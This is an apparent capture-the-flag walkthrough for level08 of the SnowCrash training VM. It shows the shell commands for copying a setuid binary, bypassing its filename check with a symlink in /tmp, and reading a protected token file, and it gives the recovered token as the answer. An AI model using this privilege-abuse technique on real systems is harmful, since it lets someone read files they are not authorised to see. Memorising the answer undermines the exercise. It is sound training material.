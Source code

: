 # FLAG08

```bash
level08@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout*
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc*
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
-r-x------  1 level08 level08  675 Apr  3  2012 .profile*
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

There is an executable at the root. There is also a token file nr

```bash
scp -P 4241 level08@localhost:/home/user/level08/level08 level08
```

We scp ```level8``` into our local to put him into ```dogbolt```

the exe will read the file only if there is not token in his name
So, create a symbolic limk to token in /tmp

```bash
cd /tmp
ln -sfT /home/user/level08/token fake
/home/user/level08/level08 /tmp/fake
```

Which yields this token-looking token: ```"quif5eloekouj29ke0vouxean"```
